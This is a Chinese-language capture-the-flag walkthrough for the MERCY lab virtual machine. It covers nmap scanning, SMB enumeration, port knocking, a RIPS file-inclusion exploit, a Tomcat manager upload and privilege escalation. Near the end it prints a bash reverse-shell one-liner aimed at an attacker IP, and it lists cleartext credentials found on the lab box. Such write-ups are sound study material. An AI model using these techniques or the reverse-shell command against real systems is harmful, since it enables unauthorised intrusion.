

## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 192.168.1.168
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-31 14:52 CST
Nmap scan report for 192.168.1.168
Host is up (0.12s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
110/tcp  open  pop3
139/tcp  open  netbios-ssn
143/tcp  open  imap
445/tcp  open  microsoft-ds
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy
MAC Address: 08:00:27:88:9D:EF (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds

┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p53,110,139,143,448,993,995,8080 192.168.1.168
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-31 14:53 CST
Nmap scan report for 192.168.1.168
Host is up (0.0012s latency).

PORT     STATE  SERVICE     VERSION
53/tcp   open   domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
110/tcp  open   pop3
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: SASL CAPA STLS PIPELINING AUTH-RESP-CODE UIDL RESP-CODES TOP
| fingerprint-strings:
|   NotesRPC:
|_    +OK Dovecot (Ubuntu) ready.
139/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
143/tcp  open   imap        Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS IDLE LOGINDISABLEDA0001 more have ID OK listed capabilities ENABLE LITERAL+ SASL-IR STARTTLS post-login Pre-login IMAP4rev1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open   ssl/imap    Dovecot imapd
|_imap-capabilities: LOGIN-REFERRALS IDLE AUTH=PLAINA0001 more ID have OK listed ENABLE LITERAL+ capabilities IMAP4rev1 post-login Pre-login SASL-IR
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
995/tcp  open   ssl/pop3
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings:
|   TerminalServer:
|_    +OK Dovecot (Ubuntu) ready.
|_pop3-capabilities: USER CAPA SASL(PLAIN) PIPELINING AUTH-RESP-CODE UIDL RESP-CODES TOP
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
8080/tcp open   http        Apache Tomcat/Coyote JSP engine 1.1
| http-robots.txt: 1 disallowed entry
|_/tryharder/tryharder
|_http-server-header: Apache-Coyote/1.1
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port110-TCP:V=7.94SVN%I=7%D=3/31%Time=660908D9%P=x86_64-pc-linux-gnu%r(
SF:NotesRPC,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port995-TCP:V=7.94SVN%T=SSL%I=7%D=3/31%Time=660908D6%P=x86_64-pc-linux-
SF:gnu%r(TerminalServer,1D,"\+OK\x20Dovecot\x20\(Ubuntu\)\x20ready\.\r\n");
MAC Address: 08:00:27:88:9D:EF (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/31%OT=53%CT=448%CU=32648%PV=Y%DS=1%DC=D%G=Y%M=080
OS:027%TM=660908FB%P=x86_64-pc-linux-gnu)SEQ(II=I)ECN(R=N)T1(R=N)T2(R=N)T3(
OS:R=N)T4(R=N)T5(R=N)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2024-03-31T14:55:36+08:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-03-31T06:55:36
|_  start_date: N/A
|_clock-skew: mean: -2h40m02s, deviation: 4h37m07s, median: -2s
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 167.39 seconds
```


## smb信息收集+knock敲门


8080默认界面

有个要登陆的manage页面
访问/tryharder/tryharder

现在得到一个密码password了

tomcat有一个put传马的历史漏洞
利用一下失败了啊
好像要有cookie
那先去找一下能不能利用上面的密码登录进去

找到一个manager目录
果然是一个表单登录的页面
这个时候我没有任何员工的信息，只知道密码
那试下hydra爆破用户名把
没爆破出来


smb用qiu用户，密码是password
能够连上，那就把东西都拿下来

要按顺序去敲开ssh

成功敲开了
把http也敲开

## web渗透
然后就访问80端口吧

找到robots目录
访问这两个目录

一眼没什么信息
访问另一个

看到一个rips的页面
先搜一下历史漏洞了咯

就是这个，文件包含，那直接去利用了

这里想去上传文件，然后去包含
但是这是失败的，没有给上传的功能点
smb也没有权限

于是转而去收集是否有敏感文件能够去包含

看到一开始的8080端口页面
其中就有一个admin的管理文件吧
包含一下看看

得到用户密码了
thisisasuperduperlonguser/heartbreakisinevitable
fluffy/freakishfluffybunny

试下ssh连吧

这里好像只能用公钥加密钥的组合去连接

那还有一个地方有登录，manage
看到第一个用户的roles就是admin
那直接登


一个很明显的tomcat历史漏洞

上传就行

反弹shell
## 提权


su一下qiu用户
翻一下它家目录其实没有什么东西
翻一下fluffy用户的
结果这家伙家目录下有个777权限的文件

把反弹shell塞进去
bash -c 'bash -i >& /dev/tcp/192.168.1.162/4444 0>&1'
等一会rootshell就来了
虽然我不知道这个shell是通过什么方式来的，没有计划任务啊这
